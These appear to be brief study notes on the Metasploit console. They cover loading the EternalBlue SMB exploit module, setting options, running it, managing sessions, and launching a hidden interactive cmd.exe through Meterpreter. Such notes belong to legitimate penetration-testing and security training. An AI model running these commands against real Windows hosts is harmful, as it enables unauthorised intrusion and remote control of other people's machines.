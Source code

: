 # Metasploit

## Notes

use exploit/windows/smb/ms17_010_eternalblue
show options
info exploit/windows/smb/ms17_010_eternalblue
setg command allows you to set the value so it can be used by default across different modules. You can clear any value set with setg using unsetg
exploit = run
You can use the background command to background the session prompt and go back to the msfconsole prompt.
The sessions command can be used from the msfconsole prompt or any context to see the existing sessions.
To interact with any session, you can use the sessions -i command followed by the desired session number.
show payloads
meterpreter> execute -f cmd.exe -i -H
